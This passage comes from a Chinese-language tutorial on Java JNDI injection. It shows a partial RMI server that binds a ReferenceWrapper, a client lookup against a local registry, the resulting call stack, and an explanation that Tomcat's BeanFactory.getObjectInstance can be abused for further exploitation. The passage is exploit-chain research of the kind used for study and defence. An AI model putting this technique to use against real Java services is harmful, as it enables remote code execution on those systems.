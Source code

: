 ```java
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);

    }
}
```

客户端



java

```java
package JNDI;

import javax.naming.InitialContext;

public class jndi_client_rmi_local {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("rmi://127.0.0.1:1097/Object");
    }
}
```

##### 调用栈：



java

```java
getObjectInstance:123, BeanFactory (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:499, RegistryContext (com.sun.jndi.rmi.registry)
lookup:138, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:9, jndi_client_rmi_local (JNDI)
```

其它的调用和上面讲的一样，我们需要注意的是javax.naming.spi.NamingManager#getObjectInstance此处的调用，可以看到该方法中通过getObjectFactoryFromReference获取一个实例化的对象之后，还会调用factory.getObjectInstance，也就是说如果我们能从其它类中找到其它可以利用的getObjectInstance方法，那么我们就可以进行进一步的利用。



java

```java
factory = getObjectFactoryFromReference(ref, f);
if (factory != null) {
    return factory.getObjectInstance(ref, name, nameCtx,
                                     environment);
}
```

然后到了我们上面所说的可利用的类：org.apache.naming.factory.BeanFactory，该类存在getObjectInstance方法，如下
